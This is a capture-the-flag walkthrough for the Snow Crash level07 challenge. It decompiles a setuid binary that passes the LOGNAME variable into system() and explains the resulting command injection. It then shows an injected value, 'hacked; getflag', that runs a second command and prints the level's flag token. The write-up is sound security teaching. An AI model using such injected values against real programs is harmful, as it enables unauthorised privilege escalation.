 ## Snow Crash - Level07 Walkthrough

### 🧩 Challenge Discovery

After logging into `level07`, we find a single binary in the home directory:
```bash
level07@SnowCrash:~$ ls
level07
```

### 🔍 Analyzing the Binary

Upon analysis (e.g., using Ghidra or `gdb`), the binary structure looks like this:

```c
int main(int argc, char **argv, char **envp) {
  char *pcVar1;
  int iVar2;
  char *ret;
  __gid_t gid = getegid();
  __uid_t uid = geteuid();
  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);
  ret = NULL;
  pcVar1 = getenv("LOGNAME");
  asprintf(&ret, "/bin/echo %s ", pcVar1);
  iVar2 = system(ret);
  return iVar2;
}
```

### 🧠 Understanding the Vulnerability

The vulnerable line is:
```c
asprintf(&ret, "/bin/echo %s ", pcVar1);
system(ret);
```

- It uses the environment variable `LOGNAME` **directly** in a `system()` call.
- This makes it a **classic command injection** vulnerability.
- Since the variable is not sanitized or escaped, we can inject additional commands.

### 🧪 Exploit Attempt via GDB (Failed)

Initially, an attempt was made to change the `ret` variable to `/bin/getflag` using `gdb`:
```gdb
set variable buffer = "/bin/getflag"
```

However, this failed because `asprintf` gets called again afterwards, overwriting the value.

### 💥 Working Exploit Using Environment Variable

Instead, we set the environment variable `LOGNAME` to inject a second command:

```bash
LOGNAME='hacked; getflag'
./level07
```

### ✅ Result

```
hacked
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

### 📚 Notes

- This challenge demonstrates a **command injection** through an unsanitized environment variable.
- Always sanitize user input before using it in system calls.
- This kind of bug often appears in scripts or binaries that rely on environment input without validation.
